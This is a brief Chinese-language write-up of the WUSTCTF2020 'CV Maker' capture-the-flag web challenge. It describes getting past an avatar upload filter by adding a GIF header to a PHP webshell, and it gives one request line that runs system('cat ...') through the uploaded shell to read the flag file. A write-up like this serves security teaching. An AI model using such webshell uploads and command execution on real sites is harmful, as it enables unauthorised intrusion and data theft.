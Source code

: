 # [WUSTCTF2020]CV Maker
![](<./img/Pasted image 20221231095511.png>)

---
首页长这样

![](<./img/Pasted image 20221231095544.png>)

注册账号并登录

![](<./img/Pasted image 20221231100127.png>)

这里可以上传头像

没想到加上`GIF`头之后就能顺利上传木马

![](<./img/Pasted image 20221231101933.png>)

```php
/uploads/d41d8cd98f00b204e9800998ecf8427e.php?cmd=system('cat /Flag_aqi2282u922oiji');
```

![](<./img/Pasted image 20221231101816.png>)

#Web #PHP #文件上传 #文件 
